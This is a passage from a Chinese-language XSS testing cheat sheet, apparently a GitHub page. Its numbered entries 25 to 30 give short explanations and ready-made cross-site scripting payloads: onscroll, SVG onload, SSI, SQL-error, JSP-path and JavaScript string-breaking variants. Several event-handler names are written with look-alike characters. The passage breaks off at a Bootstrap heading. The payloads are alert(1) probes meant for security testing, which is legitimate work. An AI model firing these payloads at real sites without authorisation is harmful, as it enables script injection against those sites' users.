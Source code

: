 ##### 25.Onscroll Universal Vector (通用Onscroll事件 测试payload)

```
使用onscroll事件处理web应用时，用户无需交互即可触发XSS漏洞。它与address, blockquote, body, center, dir, div, dl, dt, form, li, menu, ol, p, pre, ul,和h1到h6HTML标签一起使用。 

<p style=overflow:auto;font-size:999px οnscrοll=alert(1)>AAA<x/id=y></p>#y
```

##### 26.Type Juggling (类型戏法)

```
该payload用于在web应用不够严格对比匹配数字的"if"条件中使用。

1<svg οnlοad=alert(1)>
1"><svg οnlοad=alert(1)>
```

##### 27.XSS in SSI (SSI中的XSS漏洞)

```
该payload在服务器端包含（SSI）注入时使用。

<<!--%23set var="x" value="svg οnlοad=alert(1)"--><!--%23echo var="x"-->>
```

##### 28.SQLi Error-Based XSS (基于sql显注的XSS)

```
该payload在可以触发SQL错误消息（带引号或反斜杠）的功能点中进行测试。

'1<svg οnlοad=alert(1)>
<svg οnlοad=alert(1)>\
```


##### 29.Injection in JSP Path (JSP路径中的xss注入)

```
该payload可以在基于JSP的程序，测试应用的路径中使用。<br>

//DOMAIN/PATH/;<svg οnlοad=alert(1)>
//DOMAIN/PATH/;"><svg οnlοad=alert(1)>
```

##### 30.JS Injection - ReferenceError Fix (javascript注入-修复ReferenceError错误)

```
该payload用于修复一些javascript代码的语法。 通过查看浏览器开发人员工具（F12）中的"控制台"选项卡，是否有相应的ReferenceError，并相应地替换变量和函数名称进行测试。<br>

';alert(1);var myObj='
';alert(1);function myFunc(){}'
```

##### 31.Bootstrap Vector (up to v3.4.0) (Bootstrap最新版xss测试)
